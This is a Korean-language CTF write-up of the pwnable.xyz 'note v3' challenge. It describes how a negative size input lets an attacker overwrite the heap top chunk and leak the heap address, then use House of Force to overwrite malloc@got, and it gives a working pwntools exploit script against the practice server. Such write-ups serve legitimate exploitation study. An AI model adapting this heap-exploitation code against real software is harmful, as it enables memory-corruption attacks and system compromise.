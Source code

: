 ```yaml
---
title: "[pwnable.xyz]note v3"
date: 2020-3-11
ctf: Pwnable.xyz
layout: post
---
```


한번 코드가 계속 덮이는데 오류떠서 다시 밀고 짜버렸다. 힙을 두개 할당해주는데 처음 청크는 note글자의 사이즈와 title 주소를 써준다.

익스는 쉬웠다. size를 -1로 입력해서 note 글자 사이즈를 0xffffffff으로 만들어줘서 edit에서 0xffffffff만큼 edit할 수 있다. 그래서 topchunk를 덮을 수 있었고 title주소를 bss영역의 note주소로 바꿔서 heap주소를 leak해주고 topchunk 주소를 구할 수 있으므로  `house of force` 를 이용해서 aaw를 만들 수 있다. 나 같은 경우에는 malloc@got를 덮었다. 이게 처음에 힙을 하나 할당해줘서 offset을 잘 맞춰주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('challenge')
# libc = e.libc
p = remote('svc.pwnable.xyz',30041)
#libc = ELF('./alpine-libc-2.24.so')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
notes = 0x00000000006012A0
win = e.symbols['win']

def make(size,title,note,m=True):
	sa('>','1')
	sa(':',str(size))
	sa(':',title)
	if m:
		sa(':',note)

def edit(note,data):
	sa('>','2')
	sa(':',str(note))
	sa(':',data)

def _list():
	sa('>','3')

def quit():
	sa('>','0')

make(-1,'A','A',m=False)
make(-1,'B','B',m=False)
edit(1,p64(0)+p64(0x31)+p64(0x42)+p64(0)*4+p64(0xffffffffffffffff))
edit(0,p64(0)+p64(0x31)+p64(0x41)+p64(0)*4+p64(0x21)+p64(0xffffffff)+p64(notes))
_list()
p.recvuntil('\x0a')
heap_base = u64(p.recv(4).ljust(8,'\x00')) - 0x10
log.info('heap_base : {}'.format(hex(heap_base)))
top_chunk = heap_base + 0xa0
log.info('top_chunk : {}'.format(hex(top_chunk)))

hof = (0x0000000000601290 - top_chunk - 0x10 - 0x8 - 80) & 0xffffffffffffffff
print hex(hof)

make(hof,p64(win),p64(win),m=False)

sa('>','1')
sa(':','1')

p.interactive()
```

<br />

## Reference

https://www.lazenca.net/display/TEC/The+House+of+Force

